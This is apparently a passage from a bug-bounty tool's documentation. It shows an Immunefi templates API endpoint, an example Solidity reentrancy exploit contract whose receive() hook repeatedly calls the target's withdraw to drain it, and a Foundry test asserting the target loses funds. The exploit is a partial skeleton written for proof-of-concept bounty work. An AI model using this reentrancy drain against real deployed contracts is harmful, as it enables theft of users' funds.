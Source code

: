 ### **Get Templates**
```bash
GET /api/bugbounty/immunefi/templates
```

---

## **💡 EXAMPLE GENERATED CODE**

### **Exploit Contract**
```solidity
contract ReentrancyExploit {
    ITarget public immutable target;
    address public immutable attacker;
    uint256 public profit;
    
    function executeExploit() external {
        require(msg.sender == attacker, "Only attacker");
        
        // Step 1: Setup attack
        _setupAttack();
        
        // Step 2: Execute main exploit
        _executeMainAttack();
        
        // Step 3: Extract profit
        _extractProfit();
        
        emit ExploitExecuted(profit);
    }
    
    receive() external payable {
        // Reentrancy logic
        if (address(target).balance > 0) {
            target.withdraw(1 ether);
        }
    }
}
```

### **Test Suite**
```solidity
contract ExploitTest is Test {
    function testExploitExecution() public {
        uint256 initialBalance = address(target).balance;
        
        vm.prank(attacker);
        exploit.executeExploit();
        
        assertGt(exploit.profit(), 0, "Should extract profit");
        assertLt(address(target).balance, initialBalance, "Target should lose funds");
    }
}
```

---
